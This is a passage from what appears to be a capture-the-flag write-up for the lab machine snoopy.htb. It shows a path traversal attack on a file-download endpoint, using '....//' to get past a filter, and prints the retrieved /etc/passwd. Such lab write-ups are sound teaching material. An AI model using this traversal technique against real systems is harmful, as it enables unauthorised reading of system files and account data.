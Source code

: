 
### Download LFI --> DNS Vuln

On the main page, there is an option to download files. When we click that, this HTTP request is sent:

```http
GET /download?file=announcement.pdf HTTP/1.1
Host: snoopy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://provisions.snoopy.htb/
Upgrade-Insecure-Requests: 1

```

The `announcement.pdf` file had nothing interesting itself, but this looks vulnerable to LFI. Inital testing reveals this isn't vulnerable at first:

<figure><img src="../../.gitbook/assets/image (4) (6) (3).png" alt=""><figcaption></figcaption></figure>

After using `....//` instead, we can see that a file is generated:

<figure><img src="../../.gitbook/assets/image (22) (9).png" alt=""><figcaption></figcaption></figure>

When the file is downloaded and viewed, we see that it works!

```
$ unzip press_release\(2\).zip 
Archive:  press_release(2).zip
  inflating: press_package/etc/passwd  
                                                                                             
$ cat press_package/etc/passwd
root:x:0:0:root:/root:/bin/bash
<TRUNCATED>
cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
clamav:x:1002:1003::/home/clamav:/usr/sbin/nologin
lpelt:x:1003:1004::/home/lpelt:/bin/bash
cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash
bind:x:108:113::/var/cache/bind:/usr/sbin/nologin
_laurel:x:999:998::/var/log/laurel:/bin/false
```
